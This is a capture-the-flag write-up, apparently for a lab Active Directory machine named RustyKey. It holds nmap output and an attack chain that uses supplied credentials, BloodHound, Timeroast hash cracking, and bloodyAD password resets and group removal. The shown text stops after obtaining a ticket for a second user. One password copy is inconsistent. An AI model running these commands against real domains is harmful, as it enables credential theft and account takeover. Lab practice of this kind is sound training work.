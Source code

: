 # Enumeration 
## Nmap

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-03 03:33:57Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49721/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-03T03:34:47
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 8h01m57s
```


ldapsearch -x -H ldap://10.10.11.75 -D 'rr.parker' -w '8#t5HE8L!W3A' -b "dc=rustykey,dc=htb" "(objectClass=user)" userPrincipalName

domain controller : rustykey.htb
user : rr.parker
password : 8#t5HE8L!W3A

```bash
impacket-getTGT -dc-ip 10.10.xx.xx rustykey.htb/rr.parker:'8#t5HE8L!
W3A'
```

```bash
export KRB5CCNAME=rr.parker.ccache

klist
```

```bash
bloodhound-python -u 'rr.parker' -p '8#t5HEL!W3A' -c All -d rustykey.htb -ns 10.10.xx.xx --zip -k
```

```
git clone https://github.com/SecuraBV/Timeroast.git
```

```
python3 Timeroast/timeroast.py 10.10.11.75 -o rustykey.hashes
```

python3 Timeroast/extra-scripts/timecrack.py rustykey.hashes /usr/s
hare/wordlists/rockyou.txt

password: Rusty88!


```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password BB.MORGAN 'P@ssword123'
```

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'
```

impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN:P@ssword123'
